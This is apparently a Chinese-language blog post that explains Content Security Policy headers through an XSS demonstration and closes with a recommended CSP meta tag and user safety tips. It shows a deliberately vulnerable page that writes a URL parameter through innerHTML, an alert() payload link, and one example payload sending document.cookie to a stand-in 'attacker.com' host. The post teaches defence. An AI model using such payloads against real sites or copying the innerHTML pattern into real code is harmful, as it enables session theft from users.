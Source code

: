 ```yaml
---
title: CSP标头是什么？为什么有人能神不知鬼不觉地盗走你的信息？
published: 2025-07-31
description: 'CSP是内容安全策略，它可以防止攻击者向您的网站恶意注入脚本以盗走用户信息'
image: 'https://eo-r2.2x.nz/myblog/img/e245d917-2255-4d2d-85fb-aa7538a18022.webp'
tags: [XSS攻击, CSP]
category: '记录'
draft: false 
lang: ''
---
```


# 举个例子吧！

这是一个无CSP标头的网站： [点我](https://none-csp-demo.pages.dev/nocsp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E)

不出意外，你的浏览器会弹出一个提示

![](https://eo-r2.2x.nz/myblog/img/b279f283-b5d2-4dbd-955e-5b3bba6ff656.webp)

# 这是如何做到的？

这个项目开源在 [afoim/none_csp_demo](https://github.com/afoim/none_csp_demo)

HTML内容为

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>欢迎页面</title>
</head>
<body>
  <h1>欢迎</h1>
  <p>你好，<span id="name"></span>！</p>

  <script>
    // 从 URL 参数读取用户名并显示
    const params = new URLSearchParams(location.search);
    const name = params.get("name");
    document.getElementById("name").innerHTML = name;
  </script>
</body>
</html>
```

这个网站非常简单，网页通过查询符 `?name=xxx` 来动态显示用户名

比如你输入 https://none-csp-demo.pages.dev/nocsp?name=AcoFork 网页就会显示

![](https://eo-r2.2x.nz/myblog/img/366d0934-9c3a-4196-a7ae-1c230c916daf.webp)

而根据源码 网页是通过 `innerHTML` 直接进行文本插入的

这种方式没有任何的安全审查，会将传入的内容直接拼接到HTML中

那么...如果我们给网站这样一个 `name` 呢？

尝试输入 

https://none-csp-demo.pages.dev/nocsp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E

你会发现网站并没有打印出任何用户名，而且浏览器还弹出了一个奇怪的窗口

![](https://eo-r2.2x.nz/myblog/img/e86cfeed-a9d4-402b-aed0-fc3624f3e925.webp)

我们F12查看当前网页的源代码

![](https://eo-r2.2x.nz/myblog/img/ad38bc52-e689-4923-b79c-894dc9ab4136.webp)

发现在 `<span id="name"></span>` 中

被插入了一条 `<img src="x" onerror="alert('XSS攻击成功')">` ！

也就是说，网页把我们传入的 `name` 并没有解析为纯文本

而是暴力的直接插入了HTML

导致浏览器并没有渲染出来  `你好，<img src="x" onerror="alert('XSS攻击成功')"> ！` 

而是直接将 `<img src="x" onerror="alert('XSS攻击成功')">` 作为HTML去执行了！

由于 `src=x` 必定无法获取，又因为设置了 `onerror` 这个回退源

导致浏览器直接执行了 `alert('XSS攻击成功')` 这个脚本！

# 有什么危害？

举一反三，既然我们能让浏览器弹出一个提示框

那也就能做到其他事情

攻击者完全可以伪造一条URL，然后发给你，比如**获取你的浏览器Cookie然后通过Fetch发送到指定的服务器**！！！
`https://victim-site.com/page?name=<img src=x onerror="fetch('https://attacker.com/log?cookie='+document.cookie)">`

# 如何设置CSP以避免这类攻击？

尝试访问这个URL，该URL设置了严格的CSP策略

https://none-csp-demo.pages.dev/csp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E

你会发现并未弹出提示框，并且F12控制台出现报错

![](https://eo-r2.2x.nz/myblog/img/2febeecf-6f54-4c6a-b775-ef2ac8598f37.webp)

**以下是GPT给出的翻译和解释**

**翻译：**

> 拒绝执行内联脚本，因为它违反了以下 CSP 指令：`script-src 'self'`。要允许执行内联脚本，必须使用 `'unsafe-inline'` 关键字、指定哈希值（例如 `'sha256-raHeKmhSLYgI2dPMTS+XHraijHkbV3RTs8np6RhiKqQ='`），或使用随机数（例如 `'nonce-...'`）。

**解释：**  
你的 CSP 策略里规定只能加载本域（`'self'`）的脚本，但是你在 HTML 页面中写了 `<script>...</script>` 这样的**内联脚本**（inline script）。这被当前 CSP 限制了，无法执行。

这样我们就成功避免了XSS攻击

在HTML head中添加以下内容即可

```html
  <!-- 安全的 CSP 策略 -->
  <meta http-equiv="Content-Security-Policy" content="
    default-src 'self';
    script-src 'self';
    object-src 'none';
    frame-ancestors 'none';
    base-uri 'self';
  ">
```

# 如何保证我的数据安全？

1. 如果你正在运营站点，**请确保各个站点设置了严格的CSP策略**。这样，即使有攻击者想要XSS注入，也会被CSP策略拦截

2. **不要随意点击来历不明的链接或扫描来历不明的二维码**。对于短链接、混淆后的链接，首先先解析出最终链接，评估风险后再访问。或者使用无痕模式访问。也许目标网站并没有严格的CSP策略，这可能会导致你的个人数据泄露
